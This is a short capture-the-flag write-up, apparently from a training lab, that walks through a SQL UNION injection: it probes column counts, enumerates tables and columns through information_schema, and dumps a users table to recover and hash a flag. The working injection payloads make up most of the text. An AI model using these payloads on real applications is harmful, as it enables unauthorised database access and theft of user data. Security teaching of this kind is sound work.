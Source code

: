 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * Input is data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error: 
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
> **users**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_  
>**user_id,first_name,last_name,town,country,planet,Commentaire,countersign**
>4. Find data  
 >_1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_  
 <br>>**5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**  
 >_MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_  
 > _toLower -> FortyTwo => fortytwo_  
 >_Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_  

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
